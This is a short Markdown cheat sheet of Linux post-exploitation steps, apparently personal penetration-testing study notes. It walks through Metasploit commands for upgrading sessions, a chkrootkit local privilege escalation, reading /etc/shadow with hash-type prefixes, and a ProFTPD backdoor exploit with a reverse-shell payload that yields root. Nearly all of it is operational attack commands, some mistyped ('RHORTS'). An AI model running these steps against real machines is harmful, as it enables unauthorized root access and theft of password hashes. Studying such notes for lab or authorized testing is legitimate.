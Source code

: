 ***IT DEPENDS ON THE VERSION OF THE LINUX KERNEL RUNNINGON THE MACHINE AND THE DISTRIBUTION VERSION***

```ruby
sessions -u <session-id>
```

> This command can be used to upgrade your current session into a meterpreter session and if it gives you can error then don't worry you can check the new session from the `sessions` command and than load the new one.
 - `ps aux` use this to check the running process

```bash
chkrootkit -V
```

> This can be used to check the rootkit version running on the linux machine.

***VERSIONS OLDER THAN 0.50 OF THE CHKROOTKIT ARE VULNARABLE TO LOCAL PRIVELAGE ESCALATION VULNARABILITY***

```msfconsole
search exploit/unix/local/chkrootkit
show options
set CHKROOTKIT /path/to/file (see by using ps aux and check the process by cat command and open)
set SESSION <session-id>
set LHOST <localhost-ip>
exploit
```

> This will exploit the vulnerability by creating a cron job.


#### Linux Password Hash (exploit-ProFTPD)

```shell
/etc/passwd
cat /etc/shadow (only read my root user)
```
> all passsword is store

**determine by $ sign**
- $1 - MD5
- $2 - blowfish
- $5 - SHA-256
- $6 - SHA-512

```shell
service postgresql start
msfconsole
use exploit/unix/ftp/proftpd_133c_backdoor
set RHORTS <target-IP>
set payload payload/cmd/unix/reverse
exploit
/bin/bash -i
background
sessions -u <id>
```
> this is use to get the root of linux
